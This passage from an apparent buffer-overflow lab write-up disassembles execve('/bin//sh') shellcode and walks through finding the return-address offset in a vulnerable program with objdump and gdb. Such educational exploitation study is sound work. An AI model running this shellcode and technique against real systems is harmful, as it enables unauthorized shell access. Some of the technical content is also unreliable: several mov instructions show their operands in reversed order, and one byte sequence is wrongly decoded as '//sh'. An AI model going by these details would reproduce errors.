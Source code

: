 What role does the first component (shellcode) play here? If we compile it using the <code>-m i386</code> option and dump the assembly code, we may get:

```assembly
31 c0                      xor    %eax,%eax
50                         push   %eax
68 2f 2f 73 68             push   0x68732f2f
68 2f 62 69 6e             push   0x6e69622f
89 e3                      mov    %ebx,%esp
50                         push   %eax
89 e2                      mov    %edx,%esp
53                         push   %ebx
89 e1                      mov    %ecx,%esp
b0 0b                      mov    %al,$0xb
cd 80                      int    0x80
```

The first line sets <code>%eax</code> to zero and then the second line pushes it onto the stack. The hexadecimal value <code>\x2f\x2f\x68\x73</code> is actually the string "<code>//sh</code>" and The hexadecimal value <code>\x2f\x62\x69\x6e</code> is actually the string "<code>/bin</code>". The first five lines combined let <code>%ebx</code> point to the head of a <code>NULL</code> terinated string, "<code>/bin//sh\0</code>". Note that the struction <code>mov&nbsp;&nbsp;&nbsp;&nbsp;%al,$0xb</code> sets the lower eight bits of the <code>%eax</code> register. "11" is the syscall number of <code>execve()</code>. Thus, the shellcode will be run as a call to <code>execve("/bin//sh")</code>.

### Find the Offset

A pointer to our input string is passed to the function <code>check_answer</code>, which means that the address of our input string is put on the stack before the function <code>check_answer</code> is called. Issuing the command:
```bash
objdump -D ans_check | less
```
we may find three consecutive instructions that push our input string onto the stack, call the function <code>check_answer</code>, and the following instruction which is the return address that will be pushed onto the stack as the call instruction is executed:
```assembly
80492f6:       50                      push   %eax
80492f7:       e8 3a ff ff ff          call   8049236 <check_answer>
80492fc:       83 c4 10                add    $0x10,%esp
```

Use the following commands to examine the stack. The breakpoint being set in <code>gdb</code> should be at the call to <code>strcpy()</code>:

```console
$ gdb -q ans_check
(gdb) break 12
(gdb) run test
(gdb) x/72xw $esp
```

This is what I got:
```console
gdb-peda$ break 12
Breakpoint 1 at 0x8049269: file ans_check.c, line 12.
gdb-peda$ run test
Starting program: /home/seed/Documents/return2x/ans_check test
ans_buf is at address 0xffffd58a
[----------------------------------registers-----------------------------------]
EAX: 0x21 ('!')
EBX: 0x804c000 --> 0x804bf10 --> 0x1 
ECX: 0x0 
EDX: 0x804a021 --> 0x726f6600 ('')
ESI: 0xf7faa000 --> 0x1e7d6c 
EDI: 0xf7faa000 --> 0x1e7d6c 
EBP: 0xffffd5b8 --> 0xffffd5d8 --> 0x0 
ESP: 0xffffd580 --> 0x0 
```

[^1]: See [Izik Kotler](ikotler.org), "Smack the Stack (Advanced Buffer Overflow Methods)", *In Proceedings of 22C3*, 2005.
